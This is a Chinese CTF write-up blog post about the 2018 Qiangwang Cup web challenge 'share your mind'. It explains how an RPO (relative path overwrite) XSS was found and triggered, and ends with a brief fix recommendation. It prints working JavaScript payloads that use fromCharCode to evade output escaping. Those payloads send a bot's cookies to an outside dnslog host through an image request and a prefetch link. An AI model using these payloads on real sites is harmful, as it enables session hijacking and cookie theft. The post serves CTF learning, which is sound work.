 ```yaml
---
layout:     post
title:      "强网杯CTF wtiteup之share your mind"
subtitle:   " \"安全研究\""
date:       2018-03-27 22:30:32
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - CTF
    - 渗透经历
---
```




#### 0x01 前言

​	强网杯CTF online初赛已经告一段落，首先还是要感谢和跪舔一波公司战队所有的小伙伴，解题过程虽然烧脑但很精彩，2000个比赛战队情况下一度杀入前40。

​	早在比赛之前我就认为第二届相比第一届名次的角逐会更加激烈，对自己的失望也和期望基本一致，但也并不意味着我完全对玩ctf失去了兴趣。正因为参与了比赛并在比赛中尽力解出属于自己的题目，在赛后看看别人家的writeup，才可以根据这些思路总结下比赛经历并将其运用在其他地方。所以，经历这些过程之后的成长才是最重要的。

​	比赛期间自己在share your mind这题上Fuzz的时间最多，最终也没有想到思路，看了赛后大佬的writeup才后知后觉，这里简要的总结下吧。

— 

#### 0x02 关于做share your mind这题自己的一些心得

* 漏洞挖掘以及RPO XSS成因

​	首先这题是一道web题，初步看了下提示以后就开始做了。

   ![share your mind1](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind1.png)	

​	根据这题的提示来到题目主页，这里要求输入用户名密码，注册了个账户发现能用便进去一看究竟了。

![share your mind2](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind2.png)

​	来到主页report页面中发现了这样一个输入框，网站开发人员想要你把存在问题的页面链接提交给后台给他处理。大多数老铁和司机们看到这里基本上可以断定这题是一个xss盲打后台管理员cookie的了。

![share your mind3](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind4.png)

​	由于后台用的phantomjs写的xss bot（类似假的管理员机器人，xss打过去基本上秒回那种），这里随便构造一下有本站地址的url然后把xss payload放到后面打过去，发现后台确实可以成功访问自己的dnslog服务器。

![share your mind4](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind3.png)

​	由于本熊对xss的了解仅停留在写poc水平，还没对如何利用进行过深入研究过，但是根据题目hint1提示说xss的点根本不在report页面，所以我也就没在fuzzing payload上花更多的功夫。所以，后面的过程一直在寻找xss注入点，在寻找的过程中还发现了一枚彩蛋~ 

![share your mind5](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind5.png)

发现网站使用了php的htmlspecialchar函数并开启ENT_QUOTES开关对所有输出进行了过滤，也就是说html编码了尖括号和单双引号。。当我看到这个函数以为找到了突破口，过滤函数是可以绕过，并且确定xss绝对在这```http://39.107.33.96:20000/index.php/view/article/你发布文章的id```但是一直没有找到输出内容不在html标签之内的地方，所以当时的思路就一直卡在这里。。

​	在看了[Ph0rse大佬写的writeup](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)后才知道原来发布文章不写标题只写内容在view文章页面是直接打印的内容，而两个都写了的话是把文章标题和内容都输出在html标签之间的，看看下面两张图就明白了。

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind7.png)

好了，我们确定了xss输入点以后怎么触发这个xss呢，答案很隐蔽，用RPO XSS方式。首先我们来了解下RPO(relative path overwrite)即相对路径覆盖结合xss这种漏洞的成因，在漏洞利用之前首先需要掌握php url的一些冷知识。那就是phpinfo url，类似url重写。

​	根据[Wiki](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)里面对url重写的解释：url rewrite是一种REST的相关技术，它可以在 Web Server 中，针对用户所提供的 URL 进行转换后，再传入 Web Server 中的程序处理器。这里可以知道url重写其实就是将常见携带参数形式的url重写为不携带参数的伪静态形式，在题目中可以反映为：

 ```http://39.107.33.96:20000/index.php/view/article/1494```等价于```http://39.107.33.96:20000/index.php?methode=view&article=1494```

这样的形式。

同时，在php的特性中%2f会被直接解析为斜杠，在通常情况下```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```代表```http://39.107.33.96:20000/index.php/view/article/1494/../../../../index.php```即在浏览器解析为向上跳了三层目录并使用新的index.php覆盖掉原来的index.php目录。说到这里我们思考下，假如服务端开启了phpinfo url呢？会不会无视php目录跳转的特性直接把```..%2f..%2f..%2f..%2findex.php```当作参数进行解析？答案是肯定的。

我们从前端代码中可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面中。

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind8.png)

浏览器将```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```将解析为```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js```这种形式。从而导致最终访问```http://39.107.33.96:20000/index.php/static/js/jquery.min.js```这个页面，那本质上请求的是什么呢，其实还是```http://39.107.33.96:20000/index.php/view/article/1494```这篇文章的内容，绿盟那篇文章解释得很清楚：__客户端浏览器在加载相对路径文件时是以最后一个/为相对目录加载具体资源文件的__。只是将这篇文章的内容引入到了jquery.min.js，从而让浏览器误以为文章的内容就是这个js文件。

![share your mind9](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind9.png)

下面可以来实验一下，在write article页面写入alert(1)这种js语句。然后构造上述请求，最终触发xss。

```http://39.107.33.96:20000/index.php/view/article/1493/..%2f..%2f..%2f..%2findex.php```

![share your mind10](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind10.png)

我们可以f12看下浏览器的请求形式

![share your mind11](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind11.png)

显然，alert(1)这条语句最终引入到jquery.min.js中并覆盖掉原文件内容，浏览器误以为jquery.min.js 中的内容为alert(1)导致js脚本被执行。

* 漏洞最终利用

有了RPO XSS这个核武器，接下来就可以构造rpxss payload的exp脚本了。之前有提到服务端对所有输出到页面的字符使用了htmlspecialchar函数处理，故不可以使用单引号的。所以这里还有一个知识点就是使用javascript的fromCharCode函数绕过过滤限制。可以构造类似如下payload：

```(new Image()).src = 'http://VPSIP:Port?'+document.cookie```

最终构造的pyaload如下：

```(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;```

从report页面发送到后台，这里code只需要写个脚本跑个md5字典下来进行碰撞猜测就可以得到了

![share your mind12](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind12.png)

打过去就可以得到cookie，然而这里cookie的值提示要打另外一个目录

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind13.png)

搬砖Ph0rse的代码，exp可以按照下面这种方式用iframe标签的src属性去读本地相对路径。

``````javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
y1r0nz.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
document.head.appendChild(y1r0nz);
}
``````

这段js代码的意思简而言之，在经过浏览器渲染以后就是下述的两行html代码

``` html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用

提交到后台便在dnslog上得到flag了^_^

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind15.png)

— 

#### 0x03 总结&修复方案

ctf的题烧脑，但是每一题的干货特别多。这题主要三个考点：

* 掌握通过xss bot盲打后台获取session的常见套路
* phpinfo url形式如何通过相对路径覆盖的方式触发xss payload
* 使用fromCharCode函数绕过htmlspecialchar函数的单引号过滤

浏览器和服务器这种误差是在现阶段内无法及时解决的，涉及到双方各自的应用标准。目前看来，比较直接的解决办法就是在页面中避免直接使用相对路径进行静态文件的加载了。

— 

#### 0x04 参考文献

1. 深入剖析RPO漏洞  [https://xianzhi.aliyun.com/forum/topic/2220#toc-2](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)
2. Url重写 [https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)
3. RPO技术浅析 [http://blog.nsfocus.net/rpo-attack/](http://blog.nsfocus.net/rpo-attack/)
